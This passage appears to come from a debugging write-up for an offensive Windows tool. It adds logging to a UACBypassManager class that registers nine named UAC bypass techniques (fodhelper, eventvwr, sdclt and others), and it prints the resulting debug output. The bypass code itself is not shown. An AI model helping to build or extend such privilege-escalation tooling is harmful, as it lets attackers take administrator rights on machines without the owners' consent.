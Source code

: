 **Output:**
```
[DEBUG] ================================================================================
[DEBUG] [UAC BYPASS] attempt_uac_bypass() called
[DEBUG] ================================================================================
[DEBUG] [UAC BYPASS] Checking if already admin...
[DEBUG] ❌ [ADMIN CHECK] Running as NORMAL USER (not admin)
[DEBUG] [UAC BYPASS] Not admin - starting UAC bypass...
[DEBUG] [UAC BYPASS] Initializing UAC Manager...
```

---

### **5. UAC Manager Initialization Debugging (Lines 1146-1182)**

**Enhanced UACBypassManager.__init__():**
```python
def __init__(self):
    debug_print("[UAC MANAGER] Creating UACBypassManager instance...")
    debug_print("[UAC MANAGER] Creating RLock (should be patched by eventlet)...")
    
    self._lock = threading.RLock()
    debug_print("✅ [UAC MANAGER] RLock created successfully")
    
    self.methods = {}
    debug_print("[UAC MANAGER] Calling _initialize_methods()...")
    self._initialize_methods()
    debug_print("✅ [UAC MANAGER] UACBypassManager fully initialized")

def _initialize_methods(self):
    debug_print("[UAC MANAGER] Registering bypass methods...")
    
    for name, method in method_list:
        debug_print(f"  Registering method: {name}")
        self.methods[name] = method
    
    debug_print(f"✅ [UAC MANAGER] Registered {len(self.methods)} UAC bypass methods")
```

**Output:**
```
[DEBUG] [UAC MANAGER] Creating UACBypassManager instance...
[DEBUG] [UAC MANAGER] Creating RLock (should be patched by eventlet)...
[DEBUG] ✅ [UAC MANAGER] RLock created successfully
[DEBUG] [UAC MANAGER] Calling _initialize_methods()...
[DEBUG] [UAC MANAGER] Registering bypass methods...
[DEBUG]   Registering method: fodhelper
[DEBUG]   Registering method: computerdefaults
[DEBUG]   Registering method: eventvwr
[DEBUG]   Registering method: sdclt
[DEBUG]   Registering method: wsreset
[DEBUG]   Registering method: slui
[DEBUG]   Registering method: winsat
[DEBUG]   Registering method: silentcleanup
[DEBUG]   Registering method: icmluautil
[DEBUG] ✅ [UAC MANAGER] Registered 9 UAC bypass methods
```

---